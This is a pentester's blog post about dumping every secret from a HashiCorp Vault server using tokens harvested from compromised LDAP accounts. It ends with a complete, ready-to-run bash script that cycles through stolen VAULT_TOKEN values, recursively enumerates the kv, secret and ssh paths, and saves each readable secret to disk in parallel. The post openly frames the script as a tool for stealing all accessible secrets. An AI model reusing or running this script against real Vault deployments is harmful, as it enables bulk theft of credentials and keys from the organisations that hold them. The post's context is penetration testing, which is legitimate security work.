 ```yaml
---
layout: post
title: "Stealing All of Hashicorp Vault's Secrets Using Login Enumeration"
author: "Joshua Rogers"
categories: security
---
```


## Introduction

HashiCorp Vault is a popular tool for managing secrets, where users can store and access secrets programmatically. The software behind the Vault server itself may be secure, but any system is only secure as its weakest link.

In a recent pentest, I was able to fully compromise the authentication server which was used by Vault (LDAP). Although I couldn't compromise the Vault server itself, since I could log into every users' account, I could effectively obtain all the secrets stored there.
Of course, it is no surprise that with users' logins, the secrets they have access to... can be accessed. But Vault does not have functionality to simply download all the secrets that a user has access to, nor does it have a way to list the secrets which a user has access to.
Instead, we must enumerate _all_ secrets, attempting to download them one-by-one.

I made a bash script that recursively traverses each directory in Vault and attempts to download the secrets.

## Overview of the Enumeration Script

1. **Setting up the Script**:
   - The "VAULT_ADDR" variable in the script needs to be updated to match the Vault server's address.
   - A file named "keys" should be created and populated with tokens acquired by logging into users using the Vault CLI (`vault login -method=userpass username=username`)

2. **Script Functions**:
   - The script consists of several functions such as `touch2()`, `list_keys()`, and `enumerate_dirs()`.
   - These functions handle tasks like creating directory structures, listing keys in a given path, and recursively enumerating subdirectories (within Vault).

3. **Execution Flow**:
   - Nested loops iterate through different Vault paths (`kv`, `secret`, and `ssh`), listing subdirectories and calling the `enumerate_dirs()` function.
   - The `enumerate_dirs()` function calls the `list_keys()` function, which attempts to download any secrets in a directory.
   - The `enumerate_dirs()` function then calls itself and attempts to traverse further directories (a directory can contain secrets and another directory), which will run `list_keys().
   - This recursive enumeration continues until all directories, secrets, Vault paths, and VAULT_TOKEN values, are traversed.

tl;dr: If you want to steal all the Vault secrets that can be accessed using a Vault token (or multiple), edit the following script's `VAULT_ADDR` value, and fill a file named `keys` with `VAULT_TOKEN` values.


```bash
#!/bin/bash

# Set the Vault address and token
export VAULT_ADDR=https://vault:9200/
export VAULT_FORMAT=json

touch2() {
  mkdir -p "$(dirname "$1")" && touch "$1.data"
}

# Function to list all keys in a path
list_keys() {
  local path=$1

  # Get a list of all the key-value pairs in the path
  keys=$(vault kv list "${path}")

  # Loop through each key-value pair and check if it exists
  for key in $(echo "${keys}" | jq -r '.[]' | grep -Ev "/$"  | sed 's/\/$//'); do
    if YES=$(vault kv get "${path}${key}"  2>/dev/null) ; then
      touch2 "${path}${key}"
      echo "$YES" > "${path}${key}.data"
      echo "${path}${key} exists and is readable."
    fi
  done
}

# Recursive function to enumerate all subdirectories
enumerate_dirs() {
  local dir=$1

  # List all keys in the current directory
  list_keys "${dir}"

  # Recursively enumerate all subdirectories
  subdirs=$(vault kv list "${dir}" | jq -r '.[]' | grep -v '\.$')
  for subdir in ${subdirs}; do
    enumerate_dirs "${dir}${subdir}"
  done
}

export -f list_keys
export -f enumerate_dirs
export -f touch2

# Start the enumeration from the root directory
for k in $(cat keys); do
  export VAULT_TOKEN=$k
  echo Now grabbing vault from $(vault token lookup | grep username | awk -F'"' '{print $4}')
  for j in kv secret ssh; do
    for i in $(vault kv list $j/ | jq -r '.[]' | grep -v '\.$'); do
      echo enumerate_dirs "$j/$i"
    done
  done | parallel --gnu -j20 --delay 0.1 --line-buffer
  unset VAULT_TOKEN
done
```

